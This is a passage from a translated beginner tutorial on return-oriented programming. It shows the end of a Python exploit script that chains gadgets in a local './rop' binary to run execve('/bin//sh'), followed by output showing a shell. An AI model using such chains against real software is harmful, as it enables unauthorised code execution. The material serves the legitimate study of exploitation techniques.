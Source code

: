 ```

p += pack('<I', 0x0806ed1a) 		# pop edx ; ret
p += pack('<I', 0x080ea008) 		# In edx, we put the address of .data + 8, so after the string "/bin//sh"

p += pack('<I', 0x08049323) 		# xor eax, eax ; ret

p += pack('<I', 0x080546db) 		# mov dword ptr [edx], eax ; ret | And we make sure that this location contains 0x00 to end the string

p += pack('<I', 0x080481c9) 		# pop ebx ; ret
p += pack('<I', 0x080ea000) 		# In ebx, we put the address of the beginning of .data, which contains "/bin//sh" followed by null bytes

p += pack('<I', 0x080de7ad) 		# pop ecx ; ret
p += pack('<I', 0x00000000) 		# We set ecx to 0

p += pack('<I', 0x0806ed1a) 		# pop edx ; ret
p += pack('<I', 0x00000000) 		# We set edx to 0

p += pack('<I', 0x08049323) 		# xor eax, eax ; ret

for i in range(11):			        # In order to have eax = 11, we loop 11 times
	p += pack('<I', 0x0804812c)	    # inc eax ; ret

p += pack('<I', 0x0806c985) 		# int 0x80

r.sendline(p)

r.interactive()
```

So, when we launch our exploit, we get a shell :
```
$ python exploit.py 
[+] Starting local process './rop': Done
[*] Switching to interactive mode
You password is incorrect
$ 
```

ROP, this is super cool, have fun with it. In my example, I unfortunately didn't have a gadget of the form :
```
int 0x80
ret
```

So I couldn't chain the system calls. But if you have that in another binary, then you can chain almost as many system calls as you want, and you can build a complex execution chain, just by using bits of code left and right.

Moreover, if you are interested in going a little further, I highly recommend you to read Geluchat's excellent article "[A Beginner's Manual for ROP - In French](https://www.dailysecurity.fr/return_oriented_programming/)".

Have fun !

(Translated by [MorpheusH3x](https://twitter.com/MorpheusH3x))
